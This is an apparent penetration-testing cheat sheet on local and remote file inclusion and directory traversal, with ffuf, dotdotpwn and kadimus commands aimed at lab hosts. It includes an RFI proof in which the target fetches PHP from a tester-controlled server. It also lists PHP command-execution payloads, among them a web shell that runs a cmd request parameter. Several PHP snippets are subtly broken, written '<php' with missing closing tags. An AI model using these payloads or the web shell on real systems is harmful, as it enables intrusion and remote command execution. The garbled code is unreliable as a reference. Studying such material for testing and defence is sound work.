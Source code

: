 
 
 # File inclusion

Many web applications manage files and use server-side scripts to include them. When input parameters (cookies, GET or POST parameters) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI (Local/Remote File Inclusion) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE (Remote Code Execution) or to client-side attacks such as XSS (Cross-Site Scripting).

Directory traversal (a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for file-related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* Local File Inclusion: inclusion of a local file (in the webserver directory) using an absolute path
* LFI + directory traversal: inclusion of a local file (in the webserver directory or not) by "climbing" the server tree with `../` (relative path)
* Remote File Inclusion: inclusion of a remote file (not on the server) using a URI

FFUF
```
└─$ ffuf -u 'http://imagery.htb:8000/admin/get_system_log?log_identifier=../../../../../FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0
```

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) can help in finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
./dotdotpwn.pl -m http -h "http://frizzdc.frizz.htb/Gibbon-LMS/?q=" -M GET

dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) can help in finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE (Remote Code Execution) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

Once an attacker is able to execute code on a target, testing the limitations of that code execution can help to go from code execution (e.g. PHP, ASPX, etc.) to command execution (e.g. Linux or Windows commands).

With PHP as example, the tester can create a `phpinfo.php` containing `php phpinfo(); ?` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the `phpinfo` in the response.

> [!WARNING]
> If the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.

```bash
# Create phpinfo.php
echo 'php phpinfo(); ?' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute commands with one of the following payloads.

> [!TIP]
> As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.

```php
<php system('whoami'); ?>
```

```php
<php exec('whoami'); ?>
```

```php
<php passthru('whoami'); ?>
```

```php
<php shell_exec('whoami'); ?
```

```php
<php if(isset($_REQUEST['cmd'])){ echo "<pre"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>
```

## Resources

[https://www.acunetix.com/websitesecurity/directory-traversal](https://www.acunetix.com/websitesecurity/directory-traversal)

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

[https://owasp.org/www-community/attacks/Path_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)